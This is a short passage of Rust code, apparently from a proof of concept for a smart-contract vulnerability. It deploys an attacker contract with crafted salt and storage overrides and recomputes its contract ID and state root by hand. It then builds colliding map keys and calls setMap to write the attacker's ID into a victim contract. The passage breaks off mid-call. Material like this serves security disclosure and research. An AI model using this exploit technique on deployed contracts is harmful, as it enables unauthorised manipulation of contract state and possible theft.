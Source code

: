 ```
        "./out/debug/admin_examples.bin", // we can load any code for the PoC, so let's just use the same
        LoadConfiguration::default()
            .with_salt(salt)
            .with_storage_configuration(
                StorageConfiguration::default()
                    .add_slot_overrides(
                        vec![StorageSlot::new(
                        storage_key, 
                        field_id)]
                    )
            ),
    )
    .unwrap();

    let (attacker_id, code_root, state_root) = (
        contract.contract_id(),
        contract.code_root(),
        contract.state_root(),
    );

    let salt : [u8;32] = salt.into();
    let code_root : [u8;32] = code_root.into();
    // we need to use both key and data hashed for generating our
    // digests
    let storage_key : [u8;32] = Hasher::hash(storage_key).into();
    let field_id : [u8;32] = Hasher::hash(field_id).into();

    // as there's only one storage entry, the root is the hash
    // of the leaf node.
    let mut hasher = Hasher::default();
    hasher.input([0x00u8]);
    hasher.input(storage_key);
    hasher.input(field_id);
    let expected_storage_root = hasher.digest();
    // just a sanity check that we are in fact using the right storage/state root.
    assert_eq!(expected_storage_root, state_root);


    // let's also double-check address (contract id) generation.
    let mut hasher = Hasher::default();
    hasher.input([0x46, 0x55, 0x45, 0x4C]);
    hasher.input(salt);
    hasher.input(code_root);
    hasher.input(state_root);
    let expected_contract_id = hasher.digest();
    let expected_contract_id: [u8;32] = expected_contract_id.into();
    assert_eq!(ContractId::from(expected_contract_id), attacker_id);


    // Now we can generate our keys for the map
    let seed = 0x4655454Cu32;
    let first_key = (0x00u8, U256::from(storage_key));
    let second_key = (seed, 
        U256::from(salt), 
        U256::from(code_root));

    // first we set the map
    _instance
        .methods()
        .setMap(first_key, second_key, attacker_id.into())
        .with_contracts(&[&_instance])
        .call()
```